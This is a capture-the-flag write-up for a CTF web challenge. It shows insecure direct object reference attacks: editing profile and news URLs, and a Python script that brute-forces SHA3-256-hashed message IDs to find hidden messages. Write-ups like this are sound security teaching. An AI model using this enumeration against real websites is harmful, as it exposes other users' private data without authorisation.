




# Doors Everywhere

https://secuweb-web.2024-bq.ctfcompetition.com/



https://secuweb-web.2024-bq.ctfcompetition.com/login



https://secuweb-web.2024-bq.ctfcompetition.com/home



## Part 1

> A security update about profiles? There's no way there could be a flag there. Unless?

Clicking on "Profile" button redirects to https://secuweb-web.2024-bq.ctfcompetition.com/profile/guest \
Changing the URL to https://secuweb-web.2024-bq.ctfcompetition.com/profile/admin gives the Flag

## Part 2

> There are a few news articles there, but there's something odd about their URLs...

Clicking on News articles redirect to https://secuweb-web.2024-bq.ctfcompetition.com/news/num where num=1,2,3,4,5,7 \
num=6 gives the flag

## Part 3

> Secret messages! Probably the most secure part of this website. There's no way to guess those URLs. ...Unless?

Clicking on "Send Secret Message" button redirects to https://secuweb-web.2024-bq.ctfcompetition.com/send



Upon inspecting HTML:

```html
<label>Secret ID:
<!--
    FIXME: Hack to show people what the secret ID will be after they send their message. It _usually_
        works, but sometimes it doesn't, if someone takes too long to write their message.
        The real way to fix this is to better explain that they need to actually finish writing
        their message before they can get the link.
        If they really need the link inside the message, for some reason, we should just add
        the ability to edit a message after saving it.
-->
    <input id="secretIdField" type="text" value="Click to display" readonly="" onclick="generateHash('1293')">
</label>
```

And the number inside generateHash gets incremented at every reload

The news article "2024-06-30 - Secret Messages are Live" redirects to article 7, which contains a link to a secret message: https://secuweb-web.2024-bq.ctfcompetition.com/message/67b176705b46206614219f47a05aee7ae6a3edbe850bbbe214c536b989aea4d2

It can be confirmed that the hash in the URL is SHA3-256 hash of '1'

So we need to find the number whose message contains the flag. Good old brute force:

```python
from Crypto.Hash import SHA3_256
import requests

i = 1
while True:
    h_obj = SHA3_256.new()
    num = f'{i}'.encode()
    h_obj.update(num)
    digest = h_obj.hexdigest()

    url = f'https://secuweb-web.2024-bq.ctfcompetition.com/message/{digest}'
    response = requests.get(url)

    if response.status_code == 200:
        print(f"[+] Found at {url}")
        print(response.text)
        if "CTF{" in response.text:
            break
    else:
        print(f"[-] {url} returned status {response.status_code}")
    
    i = i+1
```
